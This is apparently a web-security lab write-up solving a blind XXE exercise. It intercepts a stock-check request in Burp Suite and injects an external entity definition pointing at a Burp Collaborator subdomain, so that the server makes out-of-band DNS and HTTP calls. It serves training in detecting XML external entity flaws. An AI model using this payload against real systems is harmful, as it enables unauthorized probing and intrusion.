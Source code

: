 ![image](https://github.com/udayk01/Web-Security/assets/52235763/32348666-3950-4cd4-9863-e535f3b493d4)

## Solution:

> Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

![image](https://github.com/udayk01/Web-Security/assets/52235763/01df28a0-a5d5-46c1-84c6-a786959ef902)

> Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

```<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>```

>> Replace the productId number with a reference to the external entity:

```&xxe;```

![image](https://github.com/udayk01/Web-Security/assets/52235763/d19b38b8-3f61-4c9f-ac5b-a08d26562fc4)

> Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/udayk01/Web-Security/assets/52235763/52ef42e3-dc98-44f0-9e8b-adf0e3e7c13e)

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/bce46d7e-a7f9-4b4f-952e-9f4201cfa039)
